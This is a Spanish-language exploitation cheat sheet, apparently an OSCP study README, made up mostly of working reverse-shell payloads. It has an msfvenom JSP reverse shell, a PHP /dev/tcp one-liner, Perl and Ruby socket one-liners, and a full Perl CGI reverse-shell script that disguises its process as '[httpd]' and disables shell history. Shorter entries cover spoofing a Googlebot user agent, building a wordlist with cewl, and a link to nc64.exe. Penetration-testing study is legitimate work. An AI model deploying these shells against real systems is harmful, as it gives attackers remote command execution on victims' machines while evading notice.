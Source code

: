 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

### Multi Handler
1) Generar un Multi Handler automatico --> `$OSCP/explotacion/multi-handler/generator.sh $PAYLOAD $LHOST $LPORT`

### Shell reversas

2) JSP  --> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > shell.jsp`

3) PHP  --> `$OSCP/explotacion/reverse-shells/php-reverse/generator.sh $LHOST $LPORT`

2) PHP simplificada --> `<?php echo shell_exec("exec 97<>/dev/tcp/IP_LOCAL/PUERTO;sh <&97 >&97 2>&97; id");?>`


5) PERL --> `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

6) RUBY --> `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

7) CGI --> https://github.com/ferreirasc/oscp/blob/master/payloads/reverse_shell.cgi 
<pre>
#!/usr/bin/perl -w
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

<b># Where to send the reverse shell.  Change these.
my $ip = '10.11.0.44';
my $port = 1234;</b>

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
		# source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
	cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

	if ($auth) {
		unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
			cgiprint("ERROR: Your client isn't authorised to view this page");
			cgiexit();
		}
	}
} elsif ($auth) {
	cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
	cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
	my $pid = fork();
	if ($pid) {
		cgiexit(0); # parent exits
	}

	setsid();
	chdir('/');
	umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
	cgiprint("Sent reverse shell to $ip:$port");
	cgiprintpage();
} else {
	cgiprint("Couldn't open reverse shell to $ip:$port: $!");
	cgiexit();	
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
	my $line = shift;
	$line .= "<p>\n";
	$global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
	cgiprintpage();
	exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
	print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
</pre>

## Utilidades

8) __User-agent falso__ --> `Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)`

9) __Cewl__ construir diccionario --> `cewl http://IP/DIR>>cewl`

10) __nc64.exe en bin__ https://github.com/pedroarias1015/oscp/blob/master/explotacion/bin/nc64.exe


